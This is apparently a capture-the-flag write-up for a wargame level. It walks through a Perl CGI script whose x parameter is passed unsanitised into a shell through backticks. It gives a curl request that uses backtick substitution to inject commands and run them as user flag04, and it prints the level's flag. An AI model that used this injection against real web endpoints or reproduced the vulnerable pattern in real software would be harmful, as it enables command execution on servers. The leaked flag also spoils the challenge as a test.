 
# Perl CGI Vuln
We have a perl script that serves as an endpoint for the **CGI**.

  
CGI is a protocol that allows a web server to execute scripts or programs to generate dynamic content in response to HTTP requests, the Perl language, particularly suitable for manipulating strings is used here.

This technology were popular in the early days of the web to create dynamic pages, but over time, other technologies such as server-side programming languages (such as PHP, Python, Ruby, etc.).

Here we have a simple illustration of its process.

![enter image description here](https://i.imgur.com/BNxY1vP.gif)

```perl
#!/usr/bin/perl
# localhost:4747

use CGI qw{param};
# This line imports the 'param' function from the CGI module,
# which will be used to retrieve parameters from HTTP requests.

print "Content-type: text/html\n\n";
# This line prints the HTTP header indicating that the response content will be in HTML format.
# The double newline indicates the end of the header.

sub x
{
  $y = $_[0];
  # Assign the value of the first argument passed to the function to the variable $y.
  
  print `echo $y 2>&1`;
  # Execute the 'echo' shell command with the value of $y as an argument.
  # The backticks capture the command's output & apply a command substitution.
  # The '2>&1' redirects the stderr (fd 2)
  # to stdout (fd 1), so errors are also captured.
}

x(param("x"));
# Call the function 'x' and pass the value of the "x"
# parameter from the HTTP request as an argument.

```

We note that at the top of the file we have "**localhost:4747**", let’s check a listening service on this port with **`netstat -tuln`**.

    tcp6 0 0::4747   :::*   LISTEN

Indeed we can see a listening on this port, so we’ll probably be able to send http requests.

The line that makes a print is vulnerable, we can inject a substitution command.
However you must first verify that this shell is executed as **flag04**, to do so we will send the **`id`** command.

```bash 
curl 'localhost:4747?x=`[CMDLINE]`' # id
```

    uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)


It is confirmed it is the user **flag04** that execute, in this case we will simply return a request by replacing the program id by **`getflag`** and voila.

> Flag : `ne2searoevaevoem4ov4ar8ap`
